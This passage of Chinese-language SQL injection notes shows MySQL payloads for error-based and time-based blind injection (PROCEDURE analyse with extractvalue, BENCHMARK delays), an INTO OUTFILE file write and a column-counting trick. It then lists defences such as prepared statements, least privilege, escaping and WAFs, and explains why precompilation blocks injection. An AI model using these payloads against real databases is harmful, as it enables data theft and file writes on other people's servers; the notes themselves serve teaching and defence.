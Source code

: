 	```sql
	SELECT field FROM table WHERE id > 0 ORDER BY id LIMIT 1,1 PROCEDURE analyse(extractvalue(rand(),concat(0x3a,version())),1);
	```

	- 延时注入

	```sql
	SELECT field FROM table WHERE id > 0 ORDER BY id LIMIT 1,1 PROCEDURE analyse((SELECT extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1)
	```

	

- INTO

	如果要使用`INTO`需要有写权限以及相应的路径

	```sql
	SELECT * FROM test LIMIT 0,1 INTO OUTFILE 'test.txt';
	```

	可以用@来判断列数

	```sql
	SELECT * FROM test LIMIT 0,1 INTO @,@; # ERROR 1222 (21000): The used SELECT statements have a different number of columns
	SELECT * FROM test LIMIT 0,1 INTO @;
	```

# 4. 注入防止



1. 数据库设计规范：
	1. 每个字段取合适的数据类型和数据长度（增加攻击成本）

2. 数据库权限分配：
	1. 严格限制数据库权限（增加攻击成本，减少sql注入的危害）

3. 代码层面：
	1. 前端有效性校验和限制长度（增加攻击成本）
	2. sql预编译
	3. 使用过滤器进行sanitizer，转义敏感字符
	4. 捕获sql执行异常，避免异常信息的直接回显，使用不被侧信道的自定义异常
	5. sql执行异常监控并通知
	6. 使用waf
	7. 白名单检查（只允许合适的参数或函数）

> sql语句传入->检查缓存->规则验证->解析器解析为语法树->预处理器验证语法树->优化sql->生成执行计划->执行

​	❓为什么预编译可以防止Sql注入？

​	程序在执行查询之前，使用占位符?代替字段值的部分，将sql语句交由数据库进行预处理，省却了重复解析和优化相同语法树的时间，提升了SQL执行的效率（构建语法树，优化），并且对应的执行计划也会将sql缓存下来，赋予数据库参数化查询的能力，因此在运行时，可以动态的把参数传给预编译语句，即使参数中有敏感字符，也不会被拼接进语句中当作sql执行，无法再更改语法树的结构，而是当作一个参数或一个字段属性值来处理，不会再出现非预期的查询，这便是预编译能够防止SQL注入的根本原因。

​	❓使用预编译就不会有Sql注入了吗？
